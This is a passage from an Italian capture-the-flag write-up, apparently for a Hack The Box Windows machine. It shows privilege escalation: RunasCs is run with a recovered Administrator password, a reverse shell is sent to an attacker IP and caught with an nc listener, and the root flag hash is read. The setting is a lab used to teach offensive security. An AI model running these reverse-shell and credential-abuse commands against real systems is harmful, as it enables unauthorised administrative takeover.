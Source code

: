 ```shell-session
d-r---        9/15/2018  12:19 AM                Videos
-a----         7/2/2024   2:37 AM          51712 RunasCs.exe
```

Non ci resta che eseguirlo per vedere se la nostra teoria è corretta

La sintassi di base è `.\RunasCs.exe <nome_utente> <password> <cmd> 

```shell-session
PS C:\Users\Public> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
PS C:\Users\Public>
```

Perfetto funziona.

RunasCs ha un opzione `-r` che richiede un IP e una porta a cui connettere stdin, stdout e stderr del processo risultante, che funziona in modo molto simile a una shell inversa
quindi non ci rimane che metterci in ascolto con il nostro nc e eseguire RunasCs con la flag -r

```shell-session
PS C:\Users\Public> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.15:2345
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.15:2345

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4040 created in background.
```

e sul nostro nc abbiamo la finalmente la nostra rootshell

```shell
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/RunasCs]
└─# nc -nlvp 2345
listening on [any] 2345 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.249] 49684
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
crafty\administrator

C:\Windows\system32>
```

e ci prendiamo la nostra root flag

```shell-session
C:\Users\Administrator\Desktop>type root.txt
type root.txt
a95b4df0c6c4905e00ac5291ddd9b9bf
```